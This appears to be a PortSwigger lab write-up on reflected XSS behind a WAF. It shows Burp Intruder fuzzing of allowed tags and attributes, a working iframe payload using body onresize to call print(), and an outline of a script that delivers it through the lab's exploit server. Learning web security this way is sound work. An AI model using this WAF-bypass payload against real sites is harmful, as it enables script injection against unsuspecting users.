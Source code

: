 ### Lab: Reflected XSS into HTML context with most tags and attributes blocked

This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a cross-site scripting attack that bypasses the WAF and calls the print() function.

_____

Analysis and Exploit:

1. Simple search using the search function and sent it to **[BURP-REPEATER]**
    - method GET **/?search=%22**
    - input text in 
    ```html
    <section class=blog-header>
        <h1>2 search results for '"'</h1>
    <hr>
    </section>
    ```

2. Using the script tag to test **/?search=\<script>print('ics')\</script>**:
    - returns error message "Tag is not allowed"
    - status code 400

*! Using Cheatshhet provided by PortSwigger


3. Manual test for valid tags (using **[BURP-REPEATER]**)
    - valid tags found: \<body>

    - Test using **[BURP-INTRUDER]**, grep match on error "Tag is not allowwd"
        - **/?search=%3C§body§+onwheel%3Dprint%281%29%3E**
        List of valid tags:
            - body

4. Attribute test using **[BURP-INTRUDER]**, grep match on error "Attribute is not allowed"
    - **/?search=%3Cbody+§onwheel§%3Dprint%281%29%3E**    
    List of valid attributes  
        - onbeforeinput  
        - onratechange  
        - onresize
        - onscrollend 

5. The only duo tag/attributes that does not requires user input is body/onresize
    - payload is ```<body onresize="print()">```

6. Payload is
```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
```

**iframe** tag is used to embed another document within the current HTML document   
**src** tag is the source where to find the document to embed with the search field already filled  
**onload** event needed to cause a resize of the iframe content and trigger the **onresize** event with no user interactions

_____

Script:

1. Take 2 arguments | URL, EXPLOIT-SERVER-URL
    - if wrong number of arguments, print usage instructions

2. Build the payload
    ```html
    <iframe src="[URL]/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>```

3. Store the payload onto the exploit server | POST ESU **/** | params: urlIsHttps, responseFile, responseHead, responseBody, formAction
    - urlIsHttps: on
    - responseFile: /xss
    - responseHead: HTTP/1.1 200 OK Content-Type: text/html; charset=utf-8
    - responseBody: **payload**
    - formAction: DELIVER_TO_VICTIM

4. Deliver the payload to the victim | GET ESU **/deliver-to-victim**

5. Check if exploit worked | GET U **/**
    - if "Congratulations, you solved the lab!" in response: exploit worked!





